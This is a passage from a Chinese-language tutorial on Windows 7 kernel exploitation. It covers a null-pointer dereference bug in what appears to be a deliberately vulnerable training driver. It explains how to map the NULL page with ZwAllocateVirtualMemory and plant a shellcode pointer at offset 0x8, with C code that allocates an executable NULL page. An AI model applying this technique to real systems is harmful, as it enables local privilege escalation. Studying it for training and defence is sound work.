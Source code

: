 这就意味着，由于在使用前缺少对NullPointerDereference变量的检查，因此就存在空指针引用漏洞。如果应用程序触发一个DeviceloControl调用，传递一个与MagicValue不匹配的值，然后再NULL处提供一个函数指针（偏移量为0x4或0x8，我们稍后会提及），就能够被利用。<br>
然而，在许多现代操作系统中，NULL页不再可用，这就意味着这样的漏洞会更难以利用。<br>
接下来，我们将开始介绍如何在Windows 7上利用这类漏洞，我们知道Windows 7不受NULL页保护。

## Windows 7漏洞利用

Windows 7为攻击者提供了一个选项，通过ZwAllocateVirtualMemory的API调用来映射NULL页，其具有以下签名：

```
NTSTATUS ZwAllocateVirtualMemory(
  _In_    HANDLE    ProcessHandle,
  _Inout_ PVOID     *BaseAddress,
  _In_    ULONG_PTR ZeroBits,
  _Inout_ PSIZE_T   RegionSize,
  _In_    ULONG     AllocationType,
  _In_    ULONG     Protect
);
```

我们特别感兴趣的是BaseAddress参数：<br>
“该参数是指向一个变量的指针，该变量会接收分配的页面区域的基地址。如果此参数的初始值非NULL，则从指定的虚拟地址开始分配区域，并向下舍入到下一个主机页大小的地址边界。如果此参数的初始值为NULL，则操作系统将会确定分配区域的位置。”<br>
这意味着，如果我们请求1h的BaseAddress，NULL页将被映射到进程地址空间中，可以任意使用。这是我们用来捕获尝试访问NULL地址的过程。<br>
现在，我们知道可以去触发一个空指针引用，而且我们也知道下面的调用负责一个回调函数的调用：

```
NullPointerDereference-&gt;Callback();
```

接下来，我们迅速查看与NullPointerDereference变量关联的类型，可以发现能在64位系统上偏移量0x8处找到Callback属性：

```
typedef struct _NULL_POINTER_DEREFERENCE `{`
    ULONG Value;
    FunctionPointer Callback;
`}` NULL_POINTER_DEREFERENCE, *PNULL_POINTER_DEREFERENCE;
```

因此，我们利用该漏洞，在NULL页分配内存，并在地址8h处设置一个指向我们Shellcode的指针（我们现在只使用一个cc Int-3d断点作为Shellcode），如下所示：

```
// Get a pointer to the internal ZwAllocateVirtualMemory call
typedef NTSTATUS (* WINAPI ZwAllocateVirtualMemory)(
    _In_    HANDLE    ProcessHandle,
    _Inout_ PVOID     *BaseAddress,
    _In_    ULONG_PTR ZeroBits,
    _Inout_ PSIZE_T   RegionSize,
    _In_    ULONG     AllocationType,
    _In_    ULONG     Protect
);

ZwAllocateVirtualMemory _ZwAllocateVirtualMemory = (ZwAllocateVirtualMemory)GetProcAddress(LoadLibraryA("ntdll.dll"), "ZwAllocateVirtualMemory");

// Map the NULL page into our process address space
PVOID memAddr = (PVOID)1;
SIZE_T regionSize = 4096;

NTSTATUS alloc = _ZwAllocateVirtualMemory(
    GetCurrentProcess(), 
    &amp;memAddr, 
    0, 
    &amp;regionSize, 
    MEM_COMMIT | MEM_RESERVE, 
    PAGE_EXECUTE_READWRITE
);

```